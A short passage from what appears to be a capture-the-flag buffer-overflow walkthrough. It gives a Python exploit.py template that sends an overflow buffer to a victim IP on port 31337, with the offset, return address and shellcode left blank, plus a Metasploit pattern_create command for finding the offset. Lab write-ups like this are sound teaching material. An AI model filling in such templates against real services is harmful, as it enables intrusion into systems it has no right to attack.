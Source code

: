 - Create another script called exploit.py:

```python
import socket

ip = "VICTIM_IP_Gatekeeper"
port = 31337

prefix = "OVERFLOW1 "
offset = 0  # You should set this to the correct offset value
overflow = "A" * offset

retn = ""     # Return address (in little endian format)
padding = ""  # Any NOPs or alignment bytes
payload = ""  # Your shellcode or malicious payload
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")

```

- Run the following command to generate a cyclic pattern of a length **400 bytes longer** that the string that crashed the server (change the -l value to this):

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 500

```
**-l = 100 + 400**


![image9](../resources/d3ee710746df4d439f06c0f2f8805f91.png)

- Copy the output and **place it into** the **payload variable** of the exploit.py script
